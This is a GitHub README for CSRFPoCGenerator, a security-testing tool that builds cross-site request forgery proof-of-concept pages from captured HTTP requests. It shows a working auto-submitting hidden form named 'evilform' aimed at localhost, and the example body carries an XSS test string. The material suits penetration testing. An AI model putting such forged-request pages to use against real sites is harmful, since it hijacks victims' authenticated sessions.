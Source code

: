 # CSRFPoCGenerator
Generate CSRF PoC
![CSRFPoCGenerator screen](https://raw.githubusercontent.com/takubokudori/CSRFPoCGenerator/master/images/CPGscreen.PNG)
---

## Parameters

- send : sending type(Form or XHR)
- use fromCharCode : use fromCharCode (XHR only)
- transition on submit : force Transition on Submit
- automatic submitting : submit when opening HTML file
    - specifiable : specify value HTML page(beta)
- HTTP Request : set raw HTTP Request
- URL : Set URL
- method : Set method
- header :Set HTTP header (XHR only)
- enctype : Select enctype
    - boundary : Set boundary for multipart/form-data
- body : Set HTTP body
- title : Downloadable HTML title

## How to use

Click "analyze" to analyze HTTP request & paste

Click "generate and submit" to generate form & submit request.

Click "generate only" to just generate form.

Click "download HTML" to download CSRF PoC HTML.

## Example

### using HTTP Request

Enter the following value.

```
POST http://localhost/post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Connection: keep-alive
Cookie: PHPSESSID=PaP2yx9xeWc10XV9mjxBjWb8iu3MmWb6
Upgrade-Insecure-Requests: 1

title=CSRF&name=hello+world&comment=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

Then click "analyze" and separate into 5 parameters(URL, method, header, enctype, body).

Then click "download HTML" and download a HTML file.


### using URL method etc...
Enter the following values.

- URL
```
http://localhost/post.php
```

- method
```
POST
```

- enctype
```
application/x-www-form-urlencoded (default)
```

- body
```
title=CSRF&name=hello+world&comment=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

Then click "generate only" (or "generate and submit" ) and Output a HTML form (and submit request ).
```
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;
" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
```

- title
```
Hello CSRF PoC
```

Then click "download HTML" and download a HTML file.

```
<!DOCTYPE html>

<html>
<head>
<meta charset="utf-8">
<title>Hello CSRF PoC</title>
</head>
<body onload="document.evilform.submit();">
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
<p>Hello CSRF PoC</p>
</body>
</html>
```

---

# Other

## URL encoding

- URLencode : Set string
```
<script>alert(1);</script>
```

Then click "URL encode" and encode input string.
```
%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

---

# Change log

v1.6

- added transition on submit

v1.5

- added request header feature (XHR)
- added fromCharCode(XHR)

v1.4

- added raw Request
- added detect boundary
- added an option to specifiable value

v1.3

- added XHR multipart/form-data transmission
- added an option to send automatically
- arbitrary enctype

v1.2

- added XHR mode

v1.1

- added enctype setting
- added download function
- fixed typo

